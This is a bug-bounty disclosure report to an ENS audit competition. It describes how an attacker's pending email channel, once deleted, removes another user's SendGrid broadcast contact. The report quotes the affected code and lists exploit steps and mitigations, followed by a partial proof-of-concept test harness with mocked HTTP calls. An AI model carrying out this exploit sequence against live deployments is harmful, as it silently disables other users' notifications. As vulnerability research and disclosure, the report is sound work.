

# 92966 w a low deleting an unverified email channel can remove another user s sendgrid contact

**Submitted on Sep 13th 2026 at 14:25:20 UTC by @Johnyfwesh for** [**Audit Competition | ENS**](https://immunefi.com/audit-competition/audit-competition-ens)

* **Report ID:** #92966
* **Report Type:** Websites & Apps
* **Report severity:** Low
* **Target:** <https://github.com/immunefi-team/audit-comp-ens/tree/audit-comp-ready/workers>
* **Impacts:**
  * Changing non-sensitive details of other users (including modifying browser local storage) without already-connected wallet interaction and with up to one click of user interaction, such as: Enabling/disabling notifications
  * Changing sensitive details of other users (including modifying browser local storage) without already-connected wallet interaction and with up to one click of user interaction, such as: Email
  * Taking state-modifying authenticated actions (with or without blockchain state interaction) on behalf of other users without any interaction by that user, such as: Changing registration information Notification/settings changes

## Description

## Finding Description and Impact

`DELETE /notifications/channels/:id` authorizes only the local `userChannels` row: it loads the channel with `id + user_id` and, if that row exists, deletes it. For email channels it then performs SendGrid broadcast cleanup keyed solely by `channel.target`. That cleanup calls `searchContact(env, channel.target)` and, when a contact exists, `deleteContact(env, contact.id)`. Neither call requires the deleted channel to be `verified`, and neither checks whether another user still holds a verified (or pending) binding for the same email.

`POST /notifications/channels/email` does not close that gap. It rejects an email only when another user already has a **verified** channel for it. Pending rows for the same address are allowed across users because `user_channels` uniqueness is `(user_id, channel, target)`, not `(channel, target)`. An attacker can therefore create a pending channel for a victim email before the victim verifies, wait until the victim’s verification enrolls that email in the SendGrid broadcast list via `addContactToList`, and then delete the attacker-owned pending row. Ownership of the local pending record is treated as authority over the global contact.

This is a first-party authorization failure on a state-modifying notification action. the proven impact is unauthorized removal of the victim’s SendGrid broadcast contact, which disrupts SendGrid-based broadcast notifications without any victim interaction at deletion time.

### Affected code

* [`workers/api-worker/src/app/routes/notifications/channels/$id.ts#L62-L109`](https://github.com/immunefi-team/audit-comp-ens/blob/audit-comp-ready/workers/api-worker/src/app/routes/notifications/channels/$id.ts#L62-L109)

```typescript
.delete('/', ...requireAuth, injectDb, async (c) => {
  const userId = c.var.user_id
  const channelId = c.req.param('id')

  const channel = await c.var.db.query.userChannels.findFirst({
    where: and(
      eq(TABLE.userChannels.id, channelId),
      eq(TABLE.userChannels.user_id, userId),
    ),
  })

  if (!channel) {
    return c.json({ error: 'Channel not found' }, 404)
  }

  await c.var.db
    .delete(TABLE.userChannels)
    .where(eq(TABLE.userChannels.id, channelId))

  // broadcast list cleanup via waitUntil
  if (
    channel.channel === 'email' &&
    channel.target &&
    c.env.SENDGRID_BROADCAST_LIST_ID
  ) {
    const env = {
      SENDGRID_API_KEY: c.env.SENDGRID_API_KEY,
      SENDGRID_BROADCAST_LIST_ID: c.env.SENDGRID_BROADCAST_LIST_ID,
    }
    c.executionCtx.waitUntil(
      Promise.resolve(
        searchContact(env, channel.target).andThen((contact) =>
          contact ? deleteContact(env, contact.id) : okAsync(undefined),
        ),
      ),
```

* DELETE authorizes only the caller’s local row and never requires `status === 'verified'`. Email cleanup then searches and deletes the global SendGrid contact by `channel.target`, so an attacker-owned pending row is enough to remove another user’s broadcast enrollment.
* [`workers/api-worker/src/app/routes/notifications/channels/email.ts#L39-L72`](https://github.com/immunefi-team/audit-comp-ens/blob/audit-comp-ready/workers/api-worker/src/app/routes/notifications/channels/email.ts#L39-L72) (`POST /email`)

```typescript
      const existingChannel = await c.var.db.query.userChannels.findFirst({
        where: and(
          eq(TABLE.userChannels.user_id, userId),
          eq(TABLE.userChannels.channel, 'email'),
          eq(TABLE.userChannels.target, email),
        ),
      })

      if (existingChannel) {
        if (existingChannel.status === 'verified') {
          return c.json(
            { error: 'Email already verified for this account' },
            400,
          )
        }
        // If pending, we can resend verification
      }

      // Check if email is linked to another user
      const otherUserChannel = await c.var.db.query.userChannels.findFirst({
        where: and(
          eq(TABLE.userChannels.channel, 'email'),
          eq(TABLE.userChannels.target, email),
          eq(TABLE.userChannels.status, 'verified'),
        ),
      })

      if (otherUserChannel && otherUserChannel.user_id !== userId) {
        return c.json(
          { error: 'This email address is already linked to another account' },
          400,
        )
      }
```

* Cross-user rejection applies only to an already-verified binding. A pending attacker row for the victim’s email is accepted, which is the setup step that later lets DELETE reach SendGrid cleanup for that address.
* [`workers/api-worker/src/core/database/schema/notifications.ts#L27-L79`](https://github.com/immunefi-team/audit-comp-ens/blob/audit-comp-ready/workers/api-worker/src/core/database/schema/notifications.ts#L27-L79) (`userChannels` uniqueness)

```typescript
export const userChannels = pgTable(
  'user_channels',
  {
    id: uuid('id').primaryKey().default(randomUUIDv7),
    user_id: uuid('user_id')
      .notNull()
      .references(() => users.id, {
        onDelete: 'cascade',
      }),
    channel: text('channel').$type<ChannelType>().notNull(),
    target: text('target'),
    // ...
    status: text('status').$type<UserChannelStatus>().notNull(),
  },
  (table) => [
    unique('user_channel_unique').on(
      table.user_id,
      table.channel,
      table.target,
    ),
  ],
)
```

* Uniqueness is per user, not per email target. Attacker and victim can both store `channel='email'` + the same `target` at once; local ownership of one of those rows is not exclusive control of the address.
* [`workers/api-worker/src/app/routes/notifications/channels/email.ts#L232-L257`](https://github.com/immunefi-team/audit-comp-ens/blob/audit-comp-ready/workers/api-worker/src/app/routes/notifications/channels/email.ts#L232-L257) (`POST /email/verify`)

```typescript
      // broadcast list sync via waitUntil
      if (c.env.SENDGRID_BROADCAST_LIST_ID && verification.channel?.target) {
        c.executionCtx.waitUntil(
          Promise.resolve(
            addContactToList(
              {
                SENDGRID_API_KEY: c.env.SENDGRID_API_KEY,
                SENDGRID_BROADCAST_LIST_ID: c.env.SENDGRID_BROADCAST_LIST_ID,
              },
              verification.channel.target,
              verification.user_id,
            ),
          ),
```

* Victim verification is what creates the SendGrid marketing contact (`custom_fields.user_id` = victim). The later attacker DELETE does not need to touch this row; it only needs the shared email string.
* [`workers/api-worker/src/services/sendgrid/contacts.ts#L113-L157`](https://github.com/immunefi-team/audit-comp-ens/blob/audit-comp-ready/workers/api-worker/src/services/sendgrid/contacts.ts#L113-L157) (`searchContact`)

```typescript
export const searchContact = ResultFn(async function* (
  env: SendGridEnv,
  email: string,
) {
  const url = new URL(`${BASE_URL}/v3/marketing/contacts/search/emails`)

  const response = yield* fromPromise(
    fetch(url, {
      method: 'POST',
      headers: {
        'Content-Type': 'application/json',
        Authorization: `Bearer ${env.SENDGRID_API_KEY}`,
      },
      body: JSON.stringify({
        emails: [email.toLowerCase()],
      }),
    }),
    createIntoError('SENDGRID_CONTACTS_ERROR'),
  )
  // ...
    const contact = parsed.result[email.toLowerCase()]?.contact
```

* Contact lookup is global by email. There is no user-id, list-membership, or channel-status check, so the victim’s contact is the one returned for the shared address.
* [`workers/api-worker/src/services/sendgrid/contacts.ts#L223-L241`](https://github.com/immunefi-team/audit-comp-ens/blob/audit-comp-ready/workers/api-worker/src/services/sendgrid/contacts.ts#L223-L241) (`deleteContact`)

```typescript
export const deleteContact = ResultFn(async function* (
  env: SendGridEnv,
  contactId: string,
) {
  const url = new URL(`${BASE_URL}/v3/marketing/contacts`)
  url.searchParams.set('ids', contactId)

  const response = yield* fromPromise(
    fetch(url, {
      method: 'DELETE',
      headers: {
        Authorization: `Bearer ${env.SENDGRID_API_KEY}`,
      },
    }),
    createIntoError('SENDGRID_CONTACTS_ERROR'),
  )
```

* `deleteContact` removes the marketing contact entirely from SendGrid, not merely from a list. Combined with email-only search, deleting an attacker pending channel unenrolls the victim from broadcast delivery.

## Impact

### Unauthorized broadcast-contact deletion for another user

* An ordinary wallet holder with their own JWT and a known victim email can remove that email from the SendGrid broadcast list after the victim has verified. No stolen credentials, privileged role, or victim click is required at deletion time ([`$id.ts#L62-L109`](https://github.com/immunefi-team/audit-comp-ens/blob/audit-comp-ready/workers/api-worker/src/app/routes/notifications/channels/$id.ts#L62-L109)).
* This is a state-modifying notification action taken on behalf of another user: the victim’s SendGrid enrollment is destroyed while their local verified channel remains.

### Pending email bindings are not exclusive

* `POST /email` allows multiple pending rows for one address ([`email.ts#L58-L72`](https://github.com/immunefi-team/audit-comp-ens/blob/audit-comp-ready/workers/api-worker/src/app/routes/notifications/channels/email.ts#L58-L72)), and `user_channel_unique` is per-user ([`notifications.ts#L73-L78`](https://github.com/immunefi-team/audit-comp-ens/blob/audit-comp-ready/workers/api-worker/src/core/database/schema/notifications.ts#L73-L78)). The attacker can plant the pending row before the victim verifies and keep it indefinitely.

### Alignment with Immunefi and ENS program rules

This report is in scope for the ENS Immunefi Audit Competition (Websites and Applications) under the [program scope page](https://immunefi.com/audit-competition/audit-competition-ens/scope/) and the [Immunefi Vulnerability Severity Classification System v2.3](https://immunefi.com/immunefi-vulnerability-severity-classification-system-v2-3/) (Websites and Apps). The demonstrated behavior matches the following published rules.

**In-scope asset.** The program lists `workers/` specifically `workers/api-worker` (SIWE, JWT, notifications, SendGrid/Telegram webhooks) as an in-scope GitHub tree. The authorization failure and SendGrid cleanup live in that worker (`DELETE /notifications/channels/:id`, `POST /notifications/channels/email`, `searchContact` / `deleteContact`). A fault in this tree, or reachable through it, is in scope.

**Program impact: state modifying authenticated notification actions.** The program’s in-scope impacts include:

> Taking **state-modifying authenticated actions** (with or without chain interaction) on behalf of other users **without any interaction by that user** (registration info, notification/settings changes, …)

This report matches that rule. The attacker uses their own authenticated JWT. `DELETE /notifications/channels/:id` is a state modifying notification channel action. Cleanup then deletes the victim’s SendGrid broadcast contact the victim’s notification enrollment without any action by the victim at deletion time. The program expressly names notification/settings changes as an example of this impact.

**Immunefi v2.3: changing another user’s notification details.** Immunefi’s Websites and Apps classification includes:

> Changing **non-sensitive** details of other users (including modifying browser local storage) without already-connected wallet interaction and with **up to one click**, e.g. enabling/disabling notifications.

This report matches that rule. The attacker does not need the victim’s connected wallet. A single authenticated `DELETE` disables the victim’s SendGrid-based broadcast delivery while the victim’s local channel still shows as verified. That is enabling/disabling another user’s notifications.

**First-party worker logic; eligible adversary.** The program treats bugs in how the in-scope apps and workers build and apply notification state as in scope. The attacker is an ordinary SIWE-authenticated wallet holder, privileged governance, or local-network adversary, all of which the program lists as excluded. The finding is present in the frozen in-window code on `workers/api-worker` and is a first-party authorization/cleanup defect, not a finding against an unmodified third-party service.

**Demonstrated, single root cause.** The program and Immunefi require a concrete, demonstrated impact. The report traces UI/API intent through the worker handlers to `searchContact` / `deleteContact`, and the included worker test drives the real email-create, email-verify, and channel-delete handlers to show the victim’s broadcast contact is removed. One logical root cause is reported: local pending-row ownership is treated as authority over the global contact for that email.

## Recommended mitigation steps

1. Do not treat local row ownership as authority over a global email contact:
   * Skip SendGrid cleanup unless the deleted channel is `verified`, and
   * Before `searchContact` / `deleteContact`, confirm no other `userChannels` row (especially `status = 'verified'`) still uses that `target`.
2. Prefer list removal over contact destruction when a contact might be shared:
   * Use `removeContactFromList` only after the exclusivity check above, or
   * Key marketing contacts by `user_id` (already sent as a custom field) and refuse to delete a contact whose `user_id` is not the caller.
3. Close the pending-duplicate setup path:
   * Reject `POST /email` when any other user already has a pending or verified channel for the same normalized email, and/or
   * Add a unique constraint on `(channel, target)` for email bindings so two users cannot share one address.

## Proof of Concept

## PoC Test (runs in `workers/api-worker/test/unverified-email-channel-sendgrid-contact-deletion.test.ts`) demonstrating cross-user SendGrid contact deletion

The PoC drives the real email-create, email-verify, and channel-delete handlers **and the production SendGrid client** in `contacts.ts`. `fetch` is stubbed only at the HTTP boundary and replies with the same Marketing Contacts shapes those functions parse. Assertions are on the resulting `PUT` / `POST …/search/emails` / `DELETE /v3/marketing/contacts?ids=` calls, not on a stand-in `deleteContact` mock.

### Exploit sequence

1. Attacker authenticates with their own JWT and `POST /notifications/channels/email` for mixed-case `Victim@Example.COM`. The handler normalizes the target to `victim@example.com` and inserts a pending `userChannels` row the attacker owns.
2. Victim creates their own pending channel for the same email. Both rows exist because uniqueness is `(user_id, channel, target)` and the cross-user check only looks for `status = 'verified'`.
3. Victim completes `POST /email/verify`. Their row becomes `verified` and real `addContactToList` issues `PUT /v3/marketing/contacts` with `custom_fields.user_id` = victim.
4. Attacker `DELETE /notifications/channels/:attackerChannelId` while their row is still `pending`. Authorization succeeds on the local row; real `searchContact` / `deleteContact` then issue `POST /v3/marketing/contacts/search/emails` for `victim@example.com` and `DELETE /v3/marketing/contacts?ids=<victim contact id>` — not the safer list-removal URL. The victim’s verified database row remains.

### Control cases (same file)

* After the victim is already verified, a late attacker `POST /email` is `400` (`This email address is already linked to another account`). The decoy must be planted **before** the victim verifies.
* If the attacker deletes the pending row **before** the victim verifies, the handler still searches SendGrid (missing `verified` guard) but `deleteContact` is not issued because no contact exists yet. The victim can still verify and enroll afterward.
* When the victim deletes **their own** verified channel, `DELETE /v3/marketing/contacts?ids=` is the intended cleanup path. The bug is that the same global-by-email cleanup also runs for an attacker-owned pending row.

## Relevant Code Flow Diagram



### Test file `workers/api-worker/test/unverified-email-channel-sendgrid-contact-deletion.test.ts`

```typescript
import { sign } from 'hono/jwt'
import { okAsync } from 'neverthrow'
import { afterEach, beforeEach, describe, expect, it, vi } from 'vitest'
import { makeMockEnv } from '#test-utils/env.js'

/**
 * In-memory `user_channels` / `channel_verifications` used by the route
 * handlers. Hoisted so the `getDatabase` mock factory can close over it.
 *
 * The walker only implements the Drizzle `eq` / `and` / `gt` trees these
 * handlers emit. It is not a general SQL engine (no `users` FK, no `ne`).
 */
const harness = vi.hoisted(() => {
  type ChannelRow = {
    id: string
    user_id: string
    channel: string
    target: string | null
    data: unknown
    status: string
    status_reason: string | null
    verified_at: Date | null
    last_sent_at: Date | null
    last_bounce_at: Date | null
    last_verification_sent_at: Date | null
    verification_attempts: number
  }

  type VerificationRow = {
    id: string
    user_id: string
    channel_id: string
    channel: string
    target: string | null
    purpose: string
    token: string
    created_at: Date
    expires_at: Date
    consumed_at: Date | null
    attempts: number
  }

  type SendGridContact = {
    id: string
    email: string
    listIds: string[]
    userId?: string
  }

  type RecordedSendGridRequest = {
    method: string
    pathname: string
    searchParams: Record<string, string>
    body: unknown
    authorization: string | null
  }

  return {
    channels: [] as ChannelRow[],
    verifications: [] as VerificationRow[],
    contacts: new Map<string, SendGridContact>(),
    sendgridRequests: [] as RecordedSendGridRequest[],
    getDatabase: vi.fn(),
  }
})

vi.mock('#core/database/index.js', async (importOriginal) => {
  const actual =
    await importOriginal<typeof import('#core/database/index.js')>()
  return {
    ...actual,
    getDatabase: harness.getDatabase,
  }
})

vi.mock('#services/email/verification.js', () => ({
  sendVerificationEmail: vi.fn(() => okAsync({ statusCode: 202 })),
}))

vi.mock('#services/email/welcome.js', () => ({
  sendWelcomeEmail: vi.fn(() => okAsync({ statusCode: 202 })),
}))

vi.mock('#utils/logger.js', () => ({
  logger: {
    info: vi.fn(),
    error: vi.fn(),
    warn: vi.fn(),
    debug: vi.fn(),
    trace: vi.fn(),
  },
}))

import app from '#app/index.js'
import { TABLE } from '#core/database/index.js'

const VICTIM_EMAIL_INPUT = 'Victim@Example.COM'
const VICTIM_EMAIL = 'victim@example.com'
const ATTACKER_USER_ID = '11111111-1111-4111-8111-111111111111'
const VICTIM_USER_ID = '22222222-2222-4222-8222-222222222222'
const ATTACKER_ADDRESS = '0xa11ce00000000000000000000000000000000000'
const VICTIM_ADDRESS = '0xb0b0000000000000000000000000000000000000'
const BROADCAST_LIST_ID = 'ens-broadcast-list'
const JWT_SECRET = 'poc-jwt-secret'
const SENDGRID_API_KEY = 'SG.poc'
const SENDGRID_ORIGIN = 'https://api.sendgrid.com'

type Predicate = {
  column: string
  op: string
  value: unknown
}

const UNSET = Symbol('unset')

const columnName = (node: unknown): string | undefined => {
  if (!node || typeof node !== 'object') {
    return undefined
  }
  const candidate = node as {
    name?: unknown
    table?: unknown
    dataType?: unknown
    columnType?: unknown
  }
  if (
    typeof candidate.name === 'string' &&
    (candidate.table || candidate.dataType || candidate.columnType)
  ) {
    return candidate.name
  }
  return undefined
}

const operatorString = (node: unknown): string | undefined => {
  if (typeof node === 'string') {
    return node
  }
  if (!node || typeof node !== 'object') {
    return undefined
  }
  const candidate = node as { value?: unknown; queryChunks?: unknown[] }
  if (typeof candidate.value === 'string') {
    return candidate.value
  }
  if (Array.isArray(candidate.value)) {
    return candidate.value.map(String).join('')
  }
  if (Array.isArray(candidate.queryChunks)) {
    return candidate.queryChunks
      .map((chunk) => {
        if (typeof chunk === 'string') {
          return chunk
        }
        if (chunk && typeof chunk === 'object' && 'value' in chunk) {
          const value = (chunk as { value: unknown }).value
          return Array.isArray(value) ? value.join('') : String(value ?? '')
        }
        return ''
      })
      .join('')
  }
  return undefined
}

const paramValue = (node: unknown): unknown => {
  if (!node || typeof node !== 'object') {
    return UNSET
  }
  const candidate = node as {
    value?: unknown
    queryChunks?: unknown[]
    table?: unknown
  }
  if ('value' in candidate && !candidate.queryChunks && !candidate.table) {
    return candidate.value
  }
  return UNSET
}

/**
 * Walk a Drizzle SQL tree (`eq` / `and` / `gt`) and recover column comparisons
 * so the in-memory store can honor the same predicates the handlers pass in.
 */
const extractPredicates = (node: unknown): Predicate[] => {
  const predicates: Predicate[] = []

  const visit = (current: unknown) => {
    if (!current || typeof current !== 'object') {
      return
    }
    const chunks = (current as { queryChunks?: unknown[] }).queryChunks
    if (!Array.isArray(chunks)) {
      return
    }

    for (let index = 0; index < chunks.length; index += 1) {
      const name = columnName(chunks[index])
      if (name) {
        const op = operatorString(chunks[index + 1])
        const value = paramValue(chunks[index + 2])
        if (op && value !== UNSET) {
          predicates.push({
            column: name,
            op: op.replace(/\s+/g, ''),
            value,
          })
          index += 2
          continue
        }
      }
      visit(chunks[index])
    }
  }

  visit(node)
  return predicates
}

const compare = (actual: unknown, op: string, expected: unknown) => {
  if (op === '>' || op === '>=' || op === '<' || op === '<=') {
    const left =
      actual instanceof Date
        ? actual.getTime()
        : typeof actual === 'number'
          ? actual
          : Number.NaN
    const right =
      expected instanceof Date
        ? expected.getTime()
        : typeof expected === 'number'
          ? expected
          : Number.NaN
    if (op === '>') return left > right
    if (op === '>=') return left >= right
    if (op === '<') return left < right
    return left <= right
  }
  return actual === expected
}

const rowMatches = (
  row: Record<string, unknown>,
  where: unknown,
  label: string,
) => {
  if (!where) {
    return true
  }
  const predicates = extractPredicates(where)
  if (predicates.length === 0) {
    throw new Error(
      `PoC store could not parse Drizzle where-clause for ${label}`,
    )
  }
  return predicates.every((predicate) =>
    compare(row[predicate.column], predicate.op, predicate.value),
  )
}

const isUserChannels = (table: unknown) => table === TABLE.userChannels
const isVerifications = (table: unknown) => table === TABLE.channelVerifications

const createMemoryDb = () => {
  const insertChannel = (
    values: Record<string, unknown>,
    conflictSet?: Record<string, unknown>,
  ) => {
    const existing = harness.channels.find(
      (channel) =>
        channel.user_id === values.user_id &&
        channel.channel === values.channel &&
        channel.target === values.target,
    )
    if (existing) {
      if (conflictSet) {
        Object.assign(existing, conflictSet)
      }
      return [existing]
    }

    const row = {
      id: crypto.randomUUID(),
      data: null,
      status_reason: null,
      verified_at: null,
      last_sent_at: null,
      last_bounce_at: null,
      last_verification_sent_at: null,
      verification_attempts: 0,
      ...values,
    } as (typeof harness.channels)[number]
    harness.channels.push(row)
    return [row]
  }

  const insertVerification = (values: Record<string, unknown>) => {
    const row = {
      id: crypto.randomUUID(),
      target: null,
      created_at: new Date(),
      consumed_at: null,
      attempts: 0,
      ...values,
    } as (typeof harness.verifications)[number]
    harness.verifications.push(row)
    return [row]
  }

  return {
    query: {
      userChannels: {
        findFirst: async ({ where }: { where?: unknown } = {}) =>
          harness.channels.find((channel) =>
            rowMatches(channel, where, 'userChannels.findFirst'),
          ),
      },
      channelVerifications: {
        findFirst: async ({
          where,
          with: relations,
        }: {
          where?: unknown
          with?: { channel?: boolean }
        } = {}) => {
          const verification = harness.verifications.find((row) =>
            rowMatches(row, where, 'channelVerifications.findFirst'),
          )
          if (!verification) {
            return undefined
          }
          if (relations?.channel) {
            return {
              ...verification,
              channel:
                harness.channels.find(
                  (channel) => channel.id === verification.channel_id,
                ) ?? null,
            }
          }
          return verification
        },
      },
    },
    insert: (table: unknown) => {
      let values: Record<string, unknown> = {}
      let conflictSet: Record<string, unknown> | undefined
      const chain = {
        values: (value: Record<string, unknown>) => {
          values = value
          return chain
        },
        onConflictDoUpdate: (opts: { set: Record<string, unknown> }) => {
          conflictSet = opts.set
          return chain
        },
        returning: async () => {
          if (isUserChannels(table)) {
            return insertChannel(values, conflictSet)
          }
          if (isVerifications(table)) {
            return insertVerification(values)
          }
          throw new Error('PoC store insert on unexpected table')
        },
      }
      return chain
    },
    update: (table: unknown) => ({
      set: (values: Record<string, unknown>) => ({
        where: async (where: unknown) => {
          if (isUserChannels(table)) {
            for (const channel of harness.channels) {
              if (rowMatches(channel, where, 'userChannels.update')) {
                Object.assign(channel, values)
              }
            }
            return
          }
          throw new Error('PoC store update on unexpected table')
        },
      }),
    }),
    delete: (table: unknown) => ({
      where: async (where: unknown) => {
        if (isUserChannels(table)) {
          const remaining = harness.channels.filter(
            (channel) => !rowMatches(channel, where, 'userChannels.delete'),
          )
          const removedIds = harness.channels
            .filter((channel) =>
              rowMatches(channel, where, 'userChannels.delete'),
            )
            .map((channel) => channel.id)
          harness.channels.splice(0, harness.channels.length, ...remaining)
          // Mirror ON DELETE CASCADE from channel_verifications.channel_id.
          const keptVerifications = harness.verifications.filter(
            (verification) => !removedIds.includes(verification.channel_id),
          )
          harness.verifications.splice(
            0,
            harness.verifications.length,
            ...keptVerifications,
          )
          return
        }
        if (isVerifications(table)) {
          const remaining = harness.verifications.filter(
            (verification) =>
              !rowMatches(verification, where, 'channelVerifications.delete'),
          )
          harness.verifications.splice(
            0,
            harness.verifications.length,
            ...remaining,
          )
          return
        }
        throw new Error('PoC store delete on unexpected table')
      },
    }),
  }
}

const createExecutionCtx = () => {
  const pending: Promise<unknown>[] = []
  return {
    ctx: {
      waitUntil(promise: Promise<unknown>) {
        pending.push(promise)
      },
      passThroughOnException() {},
    } as ExecutionContext,
    flush: async () => {
      await Promise.all(pending)
    },
  }
}

const createEnv = () =>
  makeMockEnv({
    JWT_SECRET,
    SENDGRID_API_KEY,
    SENDGRID_BROADCAST_LIST_ID: BROADCAST_LIST_ID,
    EMAIL_FROM_ADDRESS: 'noreply@ens.dev',
    MANAGER_APP_URL: 'https://app.ens.dev',
    DATABASE_URL: 'postgres://poc.invalid/unused',
  })

const signUserJwt = async (userId: string, address: string) =>
  sign(
    {
      user_id: userId,
      address,
      exp: Math.floor(Date.now() / 1000) + 60 * 60,
    },
    JWT_SECRET,
    'HS256',
  )

const requestJson = (
  path: string,
  init: RequestInit,
  env: CloudflareBindings,
  executionCtx: ExecutionContext,
) => app.request(path, init, env, executionCtx)

const jsonResponse = (status: number, body?: unknown) =>
  new Response(body === undefined ? null : JSON.stringify(body), {
    status,
    headers: { 'Content-Type': 'application/json' },
  })

const asUrl = (input: RequestInfo | URL): URL => {
  if (typeof input === 'string') {
    return new URL(input)
  }
  if (input instanceof URL) {
    return input
  }
  return new URL(input.url)
}

const headerValue = (
  input: RequestInfo | URL,
  init: RequestInit | undefined,
  name: string,
): string | null => {
  const fromInit = init?.headers
  if (fromInit instanceof Headers) {
    return fromInit.get(name)
  }
  if (Array.isArray(fromInit)) {
    const match = fromInit.find(
      ([key]) => key.toLowerCase() === name.toLowerCase(),
    )
    return match?.[1] ?? null
  }
  if (fromInit && typeof fromInit === 'object') {
    const record = fromInit as Record<string, string>
    const key = Object.keys(record).find(
      (candidate) => candidate.toLowerCase() === name.toLowerCase(),
    )
    return key ? record[key] : null
  }
  if (input instanceof Request) {
    return input.headers.get(name)
  }
  return null
}

const requestMethod = (
  input: RequestInfo | URL,
  init: RequestInit | undefined,
) => {
  if (init?.method) {
    return init.method.toUpperCase()
  }
  if (input instanceof Request) {
    return input.method.toUpperCase()
  }
  return 'GET'
}

const requestBody = (init: RequestInit | undefined): unknown => {
  if (typeof init?.body !== 'string') {
    return undefined
  }
  try {
    return JSON.parse(init.body)
  } catch {
    return init.body
  }
}

/**
 * Responds with the real SendGrid Marketing Contacts shapes that
 * `contacts.ts` parses. The store is updated only when those HTTP calls
 * happen, so later assertions are about the production client, not a
 * stand-in `deleteContact` mock.
 */
const handleSendGridRequest = (
  url: URL,
  method: string,
  body: unknown,
): Response => {
  if (method === 'PUT' && url.pathname === '/v3/marketing/contacts') {
    const payload = body as {
      list_ids?: string[]
      contacts?: Array<{
        email: string
        custom_fields?: { user_id?: string }
      }>
    }
    for (const contact of payload.contacts ?? []) {
      const email = contact.email.toLowerCase()
      const existing = harness.contacts.get(email)
      harness.contacts.set(email, {
        id: existing?.id ?? crypto.randomUUID(),
        email,
        listIds: payload.list_ids ?? existing?.listIds ?? [],
        userId: contact.custom_fields?.user_id ?? existing?.userId,
      })
    }
    return jsonResponse(202, { job_id: `job-${crypto.randomUUID()}` })
  }

  if (
    method === 'POST' &&
    url.pathname === '/v3/marketing/contacts/search/emails'
  ) {
    const emails = (body as { emails?: string[] }).emails ?? []
    const result: Record<
      string,
      { contact: { id: string; email: string; list_ids: string[] } }
    > = {}
    for (const email of emails) {
      const key = email.toLowerCase()
      const contact = harness.contacts.get(key)
      if (contact) {
        result[key] = {
          contact: {
            id: contact.id,
            email: contact.email,
            list_ids: contact.listIds,
          },
        }
      }
    }
    if (Object.keys(result).length === 0) {
      return jsonResponse(404, { errors: [{ message: 'No contacts found' }] })
    }
    return jsonResponse(200, { result })
  }

  if (method === 'DELETE' && url.pathname === '/v3/marketing/contacts') {
    const ids = (url.searchParams.get('ids') ?? '').split(',').filter(Boolean)
    for (const [email, contact] of harness.contacts) {
      if (ids.includes(contact.id)) {
        harness.contacts.delete(email)
      }
    }
    return jsonResponse(202)
  }

  if (
    method === 'DELETE' &&
    url.pathname.startsWith('/v3/marketing/lists/') &&
    url.pathname.endsWith('/contacts')
  ) {
    const ids = (url.searchParams.get('contact_ids') ?? '')
      .split(',')
      .filter(Boolean)
    for (const contact of harness.contacts.values()) {
      if (ids.includes(contact.id)) {
        contact.listIds = contact.listIds.filter(
          (listId) => listId !== BROADCAST_LIST_ID,
        )
      }
    }
    return jsonResponse(202)
  }

  throw new Error(`Unhandled SendGrid ${method} ${url.pathname}`)
}

const installSendGridFetchMock = () => {
  const fetchMock = vi.fn(
    async (input: RequestInfo | URL, init?: RequestInit) => {
      const url = asUrl(input)
      if (url.origin !== SENDGRID_ORIGIN) {
        throw new Error(`Unexpected fetch to ${url.href}`)
      }

      const method = requestMethod(input, init)
      const body = requestBody(init)
      harness.sendgridRequests.push({
        method,
        pathname: url.pathname,
        searchParams: Object.fromEntries(url.searchParams.entries()),
        body,
        authorization: headerValue(input, init, 'Authorization'),
      })
      return handleSendGridRequest(url, method, body)
    },
  )

  vi.stubGlobal('fetch', fetchMock)
  return fetchMock
}

const sendgridRequests = (
  method: string,
  pathname: string,
): (typeof harness.sendgridRequests)[number][] =>
  harness.sendgridRequests.filter(
    (request) => request.method === method && request.pathname === pathname,
  )

const putContactRequests = () =>
  sendgridRequests('PUT', '/v3/marketing/contacts')
const searchContactRequests = () =>
  sendgridRequests('POST', '/v3/marketing/contacts/search/emails')
const deleteContactRequests = () =>
  sendgridRequests('DELETE', '/v3/marketing/contacts')
const removeFromListRequests = () =>
  harness.sendgridRequests.filter(
    (request) =>
      request.method === 'DELETE' &&
      request.pathname.startsWith('/v3/marketing/lists/'),
  )

const postEmailChannel = (
  jwt: string,
  email: string,
  env: CloudflareBindings,
  executionCtx: ExecutionContext,
) =>
  requestJson(
    '/notifications/channels/email',
    {
      method: 'POST',
      headers: {
        Authorization: `Bearer ${jwt}`,
        'Content-Type': 'application/json',
      },
      body: JSON.stringify({ email }),
    },
    env,
    executionCtx,
  )

const verifyEmailChannel = (
  token: string,
  env: CloudflareBindings,
  executionCtx: ExecutionContext,
) =>
  requestJson(
    '/notifications/channels/email/verify',
    {
      method: 'POST',
      headers: { 'Content-Type': 'application/json' },
      body: JSON.stringify({ token }),
    },
    env,
    executionCtx,
  )

const deleteChannel = (
  channelId: string,
  jwt: string,
  env: CloudflareBindings,
  executionCtx: ExecutionContext,
) =>
  requestJson(
    `/notifications/channels/${channelId}`,
    {
      method: 'DELETE',
      headers: {
        Authorization: `Bearer ${jwt}`,
      },
    },
    env,
    executionCtx,
  )

const verificationTokenFor = (userId: string) =>
